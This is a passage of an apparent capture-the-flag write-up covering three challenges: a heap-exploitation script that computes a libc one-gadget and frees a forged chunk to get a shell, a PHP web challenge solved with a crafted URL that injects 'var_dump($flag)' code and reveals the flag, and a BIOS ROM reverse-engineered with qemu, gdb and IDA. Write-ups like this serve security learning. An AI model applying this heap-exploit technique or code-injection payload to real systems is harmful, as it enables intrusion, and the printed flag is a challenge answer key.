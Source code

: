```python
libc = addr1 - 0x01BEB00
one = 0xe75f0
one += libc
print "libc:" + hex(libc)

write_heap(len(p64(heap+0x290-0x10)),0x700,p64(heap+0x290-0x10))
func = leak_heap1(0x700)
print hex(func)

write_heap(len(p64(one))*2,0x1800 + len(heap1 + heap2 + heap3 + heap4),(p64(one)*2))
target = heap + 0x290 -0x30
free_heap(target - mmap)
p.interactive()
```

## WEB
### babyphp

> https://arcade.fluxfingers.net:1819/?msg=data:text/plain;base64,SGVsbG8gQ2hhbGxlbmdlIQ==&key1=1337x&key2=000000000000000000000000000000000001337%EF%BC%84&cc[]=emmm&k1=2&bb=var_dump($flag);//
> flag{7c217708c5293a3264bb136ef1fadd6e}

## REVERSE

### 1-bit-missile 
We know that it is a `bios rom` from the result of `strings ./rom`.

So we run it using `qemu-system-i386 -nographic -bios ./rom` and debugging with `qemu-system-i386 -nographic -bios ./rom -s -S`.

After attaching to the rom, we're able to dump the code in gdb using `dump binary memory dump.bin 0x100000 0xffffff`

> we know the start address is 0x100000 because "*Jumping to boot code at 00100000(07fd7000)*"
> 

Then we open dump.bin with IDA and rebase it to 0x100000. After searching strings, we find an interesting function like:
```C
void __cdecl __noreturn sub_10009E(char a1)
{
  char *a1a; // [esp+4h] [ebp-14h]

  print("FLAG if hit confirmed:");
  if ( (unsigned int)(data[19] ^ data[24]) < data[32] || (unsigned int)(data[19] ^ data[24]) > data[33] )
  {
    print("address out of scope!");
    sub_100160();
  }
  a1a = (char *)malloc(64);
  copy_str(a1a, (char *)(data[19] ^ data[24]));
  if ( *a1a )
    print(a1a);
  else
    print("MISSED!");
  sub_100160();
}
```
